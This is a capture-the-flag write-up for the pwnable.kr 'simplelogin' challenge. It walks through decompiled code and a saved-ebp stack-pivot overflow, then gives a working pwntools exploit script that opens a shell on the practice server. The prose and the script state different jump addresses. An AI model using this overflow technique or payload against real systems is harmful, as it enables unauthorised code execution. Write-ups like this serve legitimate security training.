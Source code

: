 # Pwnable.kr SimpleLogin CTF Writeup

## Problem Description
The code for this challenge is:

### main
```c
0804930d  int32_t main()

0804932d      void var_32
0804932d      sub_80482e0(&var_32, 0, 0x1e)
08049352      _IO_setvbuf(_IO_stdout, 0, 2, 0)
08049377      _IO_setvbuf(_IO_stdin, 0, 1, 0)
08049383      _IO_printf("Authenticate : ")
0804938c      void* var_4c = &var_32
08049397      __isoc99_scanf("%30s")
080493b3      sub_80482e0(0x811eb40, 0, 0xc)
080493b8      char* var_38 = nullptr
080493cf      int32_t eax_2 = Base64Decode(&var_32, &var_38)
080493cf      
080493dd      if (eax_2 u> 0xc)
0804941a          _IO_puts("Wrong Length")
080493dd      else
080493f6          memcpy(&input, var_38, eax_2)
080493f6          
0804940a          if (auth(eax_2) == 1)
0804940c              correct()
0804940c              noreturn
0804940c      
08049425      return 0
```

### auth
```c
0804929c  int32_t auth(int32_t arg1)

080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
080492cd      void var_18
080492cd      void* eax_1 = calc_md5(&var_18, 0xc)
080492d8      void* var_28 = eax_1
080492e3      _IO_printf("hash : %s\n")
080492e3      
080492fd      if (sub_80482f0("f87cd601aa7fedca99018a8be88eda34", eax_1) != 0)
08049306          return 0
08049306      
080492ff      return 1
```

### correct
```c
0804925f  void correct() __noreturn

08049276      if (input == 0xdeadbeef)
0804927f          _IO_puts("Congratulation! you are good!")
0804928b          __libc_system("/bin/sh")
0804928b      
08049297      exit(nullptr)
08049297      noreturn
```

The program takes an input that is encoded with base64, copies it to a fixed memory address, decodes it, calculates its MD5 hash, compares it to a specific hash, and then checks if it equals `0xdeadbeef`. ASLR is enabled, but PIE is disabled, so the addresses of the program code do not change.

## Analysis
The `auth()` function starts like this:
```c
080492ba      void var_c
080492ba      memcpy(&var_c, &input, arg1)
```

When we disassemble the `auth()` function, we get this:
```asm
0804929c  int32_t auth(int32_t arg1)

0804929c  55                 push    ebp {__saved_ebp}
0804929d  89e5               mov     ebp, esp {__saved_ebp}
0804929f  83ec28             sub     esp, 0x28
080492a2  8b4508             mov     eax, dword [ebp+0x8 {arg1}]
080492a5  89442408           mov     dword [esp+0x8 {var_24}], eax
080492a9  c744240440eb1108   mov     dword [esp+0x4], input
080492b1  8d45ec             lea     eax, [ebp-0x14 {var_18}]
080492b4  83c00c             add     eax {var_c}, 0xc
080492b7  890424             mov     dword [esp {var_2c}], eax {var_c}
080492ba  e8a1030200         call    memcpy
```

We can see from these lines:
```asm
lea     eax, [ebp-0x14 {var_18}]
add     eax {var_c}, 0xc
```

That the buffer `var_c` (which will contain the input) is located at `[ebp-0x8]` (`-0x14 + 0xc = -0x8`). However, the maximum length we can give as input is 12 bytes. This means we can perform a buffer overflow on the stack.

The stack looks like this:
```
arg1
------------
return address
------------
saved ebp
------------
local variables
```

In our case, it will look like this:
```
ebp+0x8 -> arg1
------------
ebp+0x4 -> return address
------------
ebp     -> saved ebp
------------
ebp-0x8 -> input
```

Since we can only write 12 bytes, we can only overwrite the `saved ebp`. I thought about what I could do if I could override the `ebp`, and I came up with an idea. I can change the value of the `saved ebp` on the stack to the address of the buffer that holds the input (which is a fixed address). After that, I will write in the buffer 4 junk bytes and 4 bytes (`0x0804927f`) that are the address of these lines:
```c
0804927f          _IO_puts("Congratulation! you are good!")
0804928b          __libc_system("/bin/sh")
```

This is because when the program executes the `leave` instruction (when `auth()` ends), it does this:
```asm
mov esp, ebp
pop ebp
```

Then `ebp` will have the address we wrote. When returning to `main()`, the stack will be the buffer of the input. Since `auth()` returned 0, `main()` will exit just after returning from `auth()`, and it will execute the `leave; ret` instructions. The `leave` will pop the saved `ebp`, which is the first 4 bytes of the buffer. We don't need it for this exploit, so it will be a junk value. The `ret` instruction will do this:
```asm
pop eip
```

It will pop the next 4 bytes (the last 4 bytes of the buffer) and put them in `eip`. It will then jump to this address and run it. I put in the payload the address of `system("/bin/sh")`, so it should jump to it and run it. After that, we get a shell and can read the flag.

## Exploit Code
```python
from pwn import *
import base64

context.log_level = 'info'
context(os='linux', arch='i386')

session = ssh(user='simplelogin', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9003'])

payload = b"A" * 4  # EBP junk value
payload += p32(0x08049278)  # EIP address of system("/bin/sh")
payload += p32(0x0811eb40)  # Address of the buffer I write to
payload = base64.b64encode(payload)
print(payload)

p.sendline(payload)
p.interactive()
```
